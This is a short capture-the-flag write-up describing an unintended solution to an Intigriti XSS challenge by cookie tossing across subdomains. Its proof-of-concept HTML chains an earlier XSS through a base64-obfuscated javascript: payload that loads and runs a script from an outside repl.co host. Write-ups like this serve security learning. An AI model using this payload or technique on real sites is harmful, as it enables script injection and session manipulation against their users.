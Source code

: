 ```yaml
---
layout: post
date: 2021-08-23 00:00
title: Inti XSS unintended solution
summary: cookies and milk
---
```


Unintended way to solve the challenge

## Two things you need to Know (Gotcha's):
- Any subdomain can set cookie for all subdomains of a domain
- If two cookie with same name exists, the cookie with more specific path is prefered.

##Steps:
1. Using previous XSS on intigritii challenges create a cookie named *username* set it's **domain** attribute as
	**intigriti.io** and **path** attribute as **/challenge/cooking.html**

2. Redirect to *https://challenge-0821.intigriti.io/*


## POC code:
 ```HTML
	<!DOCTYPE html>
	<html>
	  <head>
	    <meta charset="utf-8">
	    <meta name="viewport" content="width=device-width">
	    <title>repl.it</title>
	    <link href="style.css" rel="stylesheet" type="text/css" />
	  </head>
	  <body>
	    <script>
	      location = "https://javascript.challenge-0121.intigriti.io/?r=j%26%23x41;vascript:eval(atob(`eD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTt4LnNyYz0iaHR0cHM6Ly9jeWJlcnBvc3NpYmxlYXhpcy5jeXBoM3IxMzM3LnJlcGwuY28vc2NyaXB0LmpzIjtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKHgpOw==`));//%0aid=origin"
	
	    </script>
	  </body>
	</html>
 ```
